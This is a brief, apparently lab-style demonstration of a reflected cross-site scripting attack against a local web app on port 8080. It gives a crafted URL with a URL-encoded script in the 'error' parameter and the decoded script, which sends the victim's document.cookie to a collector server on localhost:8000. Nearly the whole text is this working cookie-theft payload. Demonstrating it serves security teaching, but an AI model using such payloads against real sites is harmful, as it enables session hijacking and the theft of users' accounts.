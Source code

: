 Visit the url:

    http://localhost:8080?error=%3Cscript+type%3D%22text%2Fjavascript%22%3E%0A++++document.location%3D'http%3A%2F%2Flocalhost%3A8000%2F%3Fcookie_data%3D'%2Bdocument.cookie%3B%0A%3C%2Fscript%3E

The error parameter is formed by url encoding the following script:

    <script type="text/javascript">
        document.location='http://localhost:8000/?cookie_data=' + document.cookie;
    </script>

